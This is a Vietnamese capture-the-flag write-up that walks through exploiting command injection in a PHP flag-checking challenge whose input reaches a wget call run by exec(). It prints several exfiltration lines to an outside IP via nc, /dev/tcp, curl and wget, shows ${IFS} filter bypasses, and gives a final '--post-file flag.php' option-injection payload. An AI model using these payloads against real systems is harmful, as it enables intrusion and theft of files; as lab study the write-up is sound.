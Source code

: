 # Problem
```sh
This new service checks if your flags are valid. What could possibly go wrong?

Target: http://challs.xmas.htsp.ro:3001/
Author: yakuhito
```
# Solution

- Đầu tiên, sau khi kết nối đến địa chỉ đề cho, chúng ta có thể thấy được ngay source code của file [index.php](problem/index.php).
<img src=assets/p1.png>

- Sau khi đọc code, ta có thể thấy ngay yêu cầu của challenge này như sau:
	- Nhận 1 tham số có tên là `flag` thông qua phương thức `GET`.
	- Sau đó sẽ vào hàm **checkFlag** để kiểm tra chuỗi của chúng ta nhập vào, nếu có bất kì 1 kí tự nào trong chuỗi của chúng ta nhập vào không thuộc chuỗi này (cả lowercase và uppercase) **'FAKE-X-MAS{d1s_i\$_a_SaMpL3_Fl4g_n0t_Th3_c0Rr3c7_one_karen_l1k3s_HuMu5.0123456789}'** thì hàm **checkFlag** sẽ trả về `False` và kết thúc chương trình.
	- Nếu chuỗi của chúng ta nhập làm cho hàm **checkFlag** trả về `True` thì chúng ta sẽ đến được hàm **getFlag**. Ở hàm này, chúng ta được phép thực thi lệnh thông qua hàm **exec()** của `php`, cụ thể là `"wget -q -O - https://kuhi.to/flag/" . $flag` với biến `$flag` chính là chuỗi chúng ta nhập vào sau khi đã được kiểm tra ở hàm **checkFlag**.

- Tiếp theo chúng ta sẽ phân tích bài toán:
	- Đầu tiên để có thể dễ dàng debug (custom lại file source) hoặc build lại chương trình này để test (trường hợp sau khi server của challenge đã đóng) thì có thể sử dụng file [index.php](problem/index.php) đề cho và dùng chương trình `php` để chạy chương trình cục bộ:
<img src=assets/p4.png>.

	- Nhìn vào source code, chúng ta sẽ nhanh chóng nhận ra `flag` nằm trong file `flag.php`, cùng thư mục với file `index.php`.
	- Dựa theo `output`của chương trình, chúng ta hoàn toàn không lấy được `flag`, cụ thể ở hàm **getFlag** chúng ta chỉ nhận được `Nope` hoặc `Maybe`. Cho nên hướng giải quyết sẽ là đẩy `flag` ra ngoài internet thông qua hàm **exec()**. Đến đây sẽ có 3 hướng giải quyết cho challenge này.

- Hướng 1: **Command Injection**
	- Như chúng ta có thể thấy biến `$command = "wget -q -O - https://kuhi.to/flag/" . $flag` hoàn toàn có thể cho phép chúng ta thực hiện `command injection`, cụ thể là `command1;command2|command3` với `command1` là chương trình `wget` đề cho, `command2` dùng để đọc nội dung file flag, `command3` dùng để chuyển output của `command2` ra ngoài internet. Đại loại mô hình chung sẽ là **wget -q -O - https://kuhi.to/flag/ ; cat flag.php | nc 9.9.9.9 9999** với `9.9.9.9` và `9999` là địa chỉ ip và port của chúng ta ở ngoài internet. Đến đây chúng ta sẽ cùng giải quyết 1 số vấn đề:
	- Đọc file: để đọc được file flag.php chúng ta có thể dùng `cat` (ngoài ra có thể dùng: `tac, head, tail, sort, nl, cut, awk, sed, base64...` sở dĩ có chú thích này vì có cũng có 1 bài tương tự nhưng bài đó họ xóa hết tất cả các chương trình dùng để đọc file nên chúng ta phải tùy cơ ứng biến thôi). Tuy nhiên ở hàm **checkFlag** lại không cho phép chúng ta nhập kí tự `space`, nhưng không sao, đối với `shell injection` thì cái này bypass cũng dễ. 
		```sh
		cat${IFS}flag.php
		cat<flag.php
		{cat,flag.php}
		```
	- Ở đây vì hàm **checkFlag** chỉ cho phép nhập 7 kí tự đặc biệt này `-{_\$.}`.
nên giải pháp sẽ là thay kí tự `space` bằng `${IFS}`.
	- Tiếp theo đến đoạn kết nối ra internet thì chúng ta có thể dùng `nc 9.9.9.9 9999`, tuy nhiên kí tự `|` lại không cho được phép. Sau 1 hồi search google thì phát hiện cách này: **cat flag > /dev/tcp/9.9.9.9/9999**, trong đó kí tự ">" sẽ được thay bằng biến môi trường `${PS2}`, kí tự `/` tuy không được phép nhưng có thể thay bằng `${HOME}` (hoặc **${HOME:0:1}**), tuy nhiên cách này cũng fail vì kí tự `>` từ biến môi trường `${PS2}` được xem như là 1 file chứ không phải là kí tự `redirect`. Đến đây chúng ta fail ở việc kết nối 2 command lại với nhau. Vậy thử dụng 1 command kiểu như là:
		```sh
		curl 9.9.9.9/`cat flag.php`
		wget 9.9.9.9/$(base64 flag.php)
		```
	- Nhưng cũng đều fail nốt vì 2 kí tự "(" và "\`" đều bị filter hết. Thật ra với cách này mình fail ngay từ đầu vì nghĩ rằng kí tự `\n` có thể làm kí tự phân cách giữa `command1` và `command2`. Nói chúng bị hàm **checkFlag** lọc kí tự như thế thì đúng là khó thở thật. 

- Hướng 2: Bypass hàm **checkFlag**
	- Đầu tiên dễ nhìn thấy nhất, là hàm `php strlen`, liệu có cách nào để hàm này trả về giá trị nhỏ hơn giá trị thực để nó không kiểm tra được hết các kí tự chúng ta nhập vào không? Đến đây chợt nghĩ đến kí tự **\x00** và **overflow integer** nhưng sau 1 hồi test đều fail :TT 
	- Tiếp tục trong hàm **checkFlag** còn hàm nào thì tìm lỗ hổng của hàm đấy thôi. Tiếp đến là hàm `strpos`, thèn này cũng có 1 bug cho phép bypass việc lọc kí tự nhưng đòi hỏi phải có kí tự `%`, mà kí tự này cũng lại bị chặn :TT
	- Cứ thế tương tự cho các hàm tiếp theo mà search tiếp nhưng chẳng thu được kết quả gì :TT 

- Hướng 3: Tận dụng **wget** đề cho:

		```sh
		$command = "wget -q -O - https://kuhi.to/flag/" . $flag;
		$cmd_output = array();
		exec($command, $cmd_output);
		```
	- Nhìn nhận thật kĩ thì `wget` chính là command mà chúng ta cần tìm. Đối với mô hình chung thì việc chèn `command injection` luôn là lựa chọn hàng đầu, tuy nhiên đối với bài đặc biệt như challenge này, `wget` không chỉ giúp chúng ta kết nối ra ngoài internet, mà còn có thể upload được file nên cái chúng ta làm không phải là chèn thêm `command` mà là chèn thèn `option`. Cụ thể sẽ là **wget -q -O - https://kuhi.to/flag/ 9.9.9.9 --post-file flag.php**
	- Và đây là payload và kết quả:
<img src=assets/p2.png>

<img src=assets/p3.png>

P/S: Nói chung qua challenge này được ôn lại `command injection` cũng nhiều, chỉ là vì không liên quan nên không nói cụ thể trong bài này nên đành để lại 1 số reference tại đây vậy :xD

[Shell Command Language](https://pubs.opengroup.org/onlinepubs/009604499/utilities/xcu_chap02.html)

[Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings)

[Web-CTF-Cheatsheet](https://github.com/w181496/Web-CTF-Cheatsheet#%E7%A9%BA%E7%99%BD%E7%B9%9E%E9%81%8E)

[Command Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)


